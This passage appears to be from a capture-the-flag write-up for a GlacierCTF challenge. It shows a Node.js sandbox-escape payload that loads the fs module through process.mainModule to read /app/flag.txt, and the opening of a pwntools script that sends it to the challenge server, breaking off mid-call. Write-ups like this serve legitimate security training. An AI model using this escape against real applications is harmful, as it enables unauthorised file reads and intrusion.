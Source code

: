 The payload is the following:

```js
console.log(
  process.mainModule.constructor
    ._load("fs")
    .readFileSync("/app/flag.txt", "utf8"),
);
```

and the script to send the payload is the following:

```py
#!/usr/bin/env python

from pwn import *

io = remote("pwn.glacierctf.com", 13375)
## console.log(process.mainModule.constructor._load('fs').readFileSync('/app/flag.txt', 'utf8'));
io.sendlineafter(
    b"Please type in formula:",
```